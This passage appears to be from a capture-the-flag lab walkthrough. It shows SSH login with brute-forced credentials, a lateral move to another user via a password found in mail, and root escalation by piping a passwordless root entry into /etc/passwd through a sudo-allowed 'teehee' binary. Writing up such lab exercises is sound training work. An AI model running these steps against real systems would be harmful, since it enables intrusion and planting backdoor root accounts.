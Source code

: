 ```
[22][ssh] host: 192.168.0.104   login: jim   password: jibril04
```

✅ We got **SSH credentials for jim**.

---

## Step-8: Pivot to Another User

Login as jim, then enumerate again.

```
ssh jim@192.168.0.104
```

**note:** we all can chenge one user to another user -

```
su <user_name>
password: <>
```

Check `/home/jim/mail` → you’ll find a mail containing another user’s credentials

```
charles:^xHhA&hvim0y
```

Now switch user:

```
su charles
```

---

## Step-9: Privilege Escalation with Sudo

Check sudo permissions:

```
sudo -l
```

**Result:**

```
(root) NOPASSWD: /usr/bin/teehee
```

This means **charles** can run `teehee` as root without password.

### Exploit with Teehee

We can append a root user into `/etc/passwd`:

```
echo "reja::0:0:::/bin/bash" | sudo teehee -a /etc/passwd
```
